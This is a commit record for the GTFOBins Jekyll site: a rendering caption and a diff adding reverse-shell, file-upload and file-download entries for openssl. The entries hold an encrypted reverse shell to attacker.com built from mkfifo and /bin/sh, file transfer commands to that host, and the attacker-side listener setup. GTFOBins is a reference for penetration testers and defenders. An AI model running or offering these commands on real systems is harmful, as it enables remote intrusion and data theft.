

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openssl.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add reverse-shell, file-upload and file-download.

```diff
--- a/_gtfobins/openssl.md
+++ b/_gtfobins/openssl.md
@@ -1,5 +1,25 @@
 ---
 functions:
+  reverse-shell:
+    - description: Run `openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes && openssl s_server -quiet -key key.pem -cert cert.pem -port 12345` on the attacker box to receive the shell. Communication between attacker and target will be encrypted.
+      code: |
+        RHOST=attacker.com
+        RPORT=12345
+        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
+  file-upload:
+    - description: Send a file to a TCP port, transmission will be encrypted. Run `openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes && openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 > file_to_save` on the attacker box to collect the file.
+      code: |
+        RHOST=attacker.com
+        RPORT=12345
+        LFILE=file_to_send
+        openssl s_client -quiet -connect $RHOST:$RPORT < "$LFILE"
+  file-download:
+    - description: Fetch a file from a TCP port, transmission will be encrypted. Run `openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes && openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < file_to_send` on the attacker box to send the file.
+      code: |
+        RHOST=attacker.com
+        RPORT=12345
+        LFILE=file_to_save
+        openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
   file-write:
     - code: |
         LFILE=file_to_write
```
